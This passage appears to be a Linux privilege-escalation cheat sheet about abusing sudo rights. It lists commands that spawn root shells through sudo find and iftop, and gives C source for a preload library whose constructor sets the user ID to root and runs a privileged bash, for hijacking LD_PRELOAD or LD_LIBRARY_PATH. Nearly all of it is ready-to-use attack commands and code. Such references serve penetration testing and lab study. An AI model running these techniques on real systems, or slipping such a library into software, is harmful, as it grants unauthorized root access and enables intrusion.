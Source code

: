 ### **find**

**Victim**

```
sudo find / etc/passwd -exec /bin/bash \;
```

### **iftop**

**Victim**

```
iftop
!/bin/sh
```

## Sudo - Environment Variables

### preload.c - code

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

### library\_path.c

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Sudo can be configured to inherit certain environment variables from the user's environment. Check which environment variables are inherited (look for the env\_keep options):

**Victim**

```
sudo -l
```
